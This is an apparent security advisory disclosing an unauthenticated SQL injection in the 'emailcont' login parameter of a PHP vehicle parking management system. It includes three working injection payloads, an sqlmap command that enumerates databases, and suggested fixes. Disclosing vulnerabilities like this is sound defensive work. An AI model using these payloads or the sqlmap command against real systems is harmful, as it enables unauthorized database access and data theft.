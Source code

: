 # Vehicle parking Management System in V1.13 SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Vehicle parking Management System

## Vendor Homepage

- https://phpgurukul.com/vehicle-parking-management-system-using-php-and-mysql/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

Flow Huang

## Vulnerable File

- /vpms/users/login.php

## VERSION(S)

- V1.1.3

## Software Link

- https://phpgurukul.com/wp-content/uploads/2019/07/Vehicle-parking-Management-System-in-PHP.zip

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/vpms/users/login.php' file of the 'Vehicle parking Management System' project. The reason for this issue is that attackers inject malicious code from the parameter 'emailcont' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Vehicle parking Management System",I discovered a critical SQL injection vulnerability "/vpms/users/login.php" file. This vulnerability stems from insufficient user input validation of the 'emailcont' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability lonameion:

- 'emailcont‘ parameter

## Payload:

```
Parameter: emailcont (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: emailcont=-4052') OR 6473=6473-- idXB&password=1&login=

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: emailcont=1234567890') OR ROW(9062,1573)>(SELECT COUNT(*),CONCAT(0x7178707171,(SELECT (ELT(9062=9062,1))),0x7170767171,FLOOR(RAND(0)*2))x FROM (SELECT 2536 UNION SELECT 5826 UNION SELECT 2136 UNION SELECT 5267)a GROUP BY x)-- ekgd&password=1&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: emailcont=1234567890') AND (SELECT 8413 FROM (SELECT(SLEEP(5)))eoDH)-- MXmN&password=1&login=
---
```



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
sqlmap -r sql.txt --batch --risk 3 --level 5 --dbs
```

![image-20250409135424612](/Users/lingtian/Library/Application%20Support/typora-user-images/image-20250409135424612.png)

# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.